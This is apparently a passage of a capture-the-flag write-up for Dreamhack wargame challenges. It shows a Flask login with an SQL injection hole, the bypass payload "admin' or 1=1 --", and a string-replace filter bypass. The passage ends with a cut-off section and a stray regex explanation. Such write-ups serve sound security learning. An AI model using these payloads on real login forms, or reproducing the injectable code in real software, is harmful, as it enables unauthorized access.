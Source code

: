 ```python
            if result:
                return f"<h1>Welcome, {username}!</h1><p>Your secret: {result[0]}</p>"
            else:
                return "<h1>Login failed</h1><p>Invalid username or password.</p>"
        except Exception as e:
            return f"<h1>Error</h1><p>{e}</p>"
        finally:
            conn.close()

    return '''
        <form method="post">
            Username: <input type="text" name="username"><br>
            Password: <input type="password" name="password"><br>
            <input type="submit" value="Login">
        </form>
    '''

if __name__ == '__main__':
    init_db()
    app.run(debug=True)
```

This is a simple challenge involving an `SQL injection vulnerability`. By logging in with the username `admin` and crafting commands for the remaining data, you can retrieve the `flag`.

```shell
payload:
username = admin' or 1=1 --
password = (anythings u want)
```

## Replace Trick!

[Challenge](https://dreamhack.io/wargame/challenges/1647)
[Source](https://sfo2.digitaloceanspaces.com/wargame1/public/005d686d-1534-41ae-affe-2f84bd4f4ac8.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=OIK4A6AORYFTHBTQUV55%2F20241228%2Fsfo2%2Fs3%2Faws4_request&X-Amz-Date=20241228T000900Z&X-Amz-Expires=86400&X-Amz-SignedHeaders=host&X-Amz-Signature=f54749d17a8b98f49c19dd754bae2e12a46d602f865ac424eb222602e260b9f2)

![pic1](https://hackmd.io/_uploads/HkIxwPpBkl.png)

In this challenge, we simply need to bypass the condition check by repeating the `flag` string, so when it is replaced, the `flag` remains unchanged for us.

```shell
/check?flag=flflagag
```

## baby-Case

[Challenge](https://dreamhack.io/wargame/challenges/1401)
[Source](https://sfo2.digitaloceanspaces.com/wargame1/public/f05293a9-f89f-480c-8b8d-8793b3d06944.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=OIK4A6AORYFTHBTQUV55%2F20241229%2Fsfo2%2Fs3%2Faws4_request&X-Amz-Date=20241229T095925Z&X-Amz-Expires=86400&X-Amz-SignedHeaders=host&X-Amz-Signature=ee0fbb59bd7b892766f4365cfe4241f27ecdb01e00f3a2d393862d4b8c264276)


[^0-8\"]: Matches any character that is not a digit from 0 to 8 or the double-quote character ".